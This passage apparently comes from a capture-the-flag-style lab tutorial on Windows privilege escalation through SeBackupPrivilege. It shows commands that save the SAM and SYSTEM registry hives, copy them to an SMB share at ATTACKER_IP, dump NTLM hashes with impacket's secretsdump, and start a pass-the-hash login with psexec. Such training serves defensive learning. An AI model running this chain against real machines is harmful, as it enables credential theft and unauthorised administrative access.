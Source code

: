 PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
To backup the SAM and SYSTEM hashes, we can use the following commands:

Command Prompt
```
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's ```smbserver.py``` to start a simple SMB server with a network share in the current directory of our AttackBox:

KaliLinux
```
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

This will create a share named ```public``` pointing to the ```share``` directory, which requires the username and password of our current windows session. After this, we can use the ```copy``` command in our windows machine to transfer both files to our AttackBox: 

Command Prompt
```
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```
And use impacket to retrieve the users' password hashes:

KaliLinux
```
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

KaliLinux
```
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.25.98
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
